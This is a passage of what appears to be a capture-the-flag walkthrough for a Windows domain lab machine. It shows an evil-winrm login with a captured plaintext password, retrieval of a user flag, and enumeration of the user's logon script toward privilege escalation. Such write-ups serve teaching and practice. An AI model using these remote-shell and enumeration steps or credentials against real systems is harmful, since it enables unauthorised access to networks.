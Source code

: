 ```shell
$ evil-winrm -i 10.10.10.182 -u s.smith -p sT333ve2                                                                           
Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\s.smith\Documents> whoami
cascade\s.smith
```

## Privilege Escalation

Get the flag.

```shell
*Evil-WinRM* PS C:\Users\s.smith\desktop> type user.txt
995340c15f9857424228c9319a3dc077
```

We can see that `s.smith` has a logon script.

```shell
*Evil-WinRM* PS C:\users\s.smith> net user s.smith
User name                    s.smith
Full Name                    Steve Smith
Comment
User's comment
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/28/2020 8:58:05 PM
Password expires             Never
Password changeable          1/28/2020 8:58:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script                 MapAuditDrive.vbs
```

Locate it and read it.

```shell
*Evil-WinRM* PS C:\users\s.smith> Get-ChildItem -Path C:\ -Include MapAuditDrive.vbs -File -Recurse -ErrorAction SilentlyContinue


    Directory: C:\Windows\SYSVOL\domain\scripts


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/15/2020   9:50 PM            258 MapAuditDrive.vbs
```
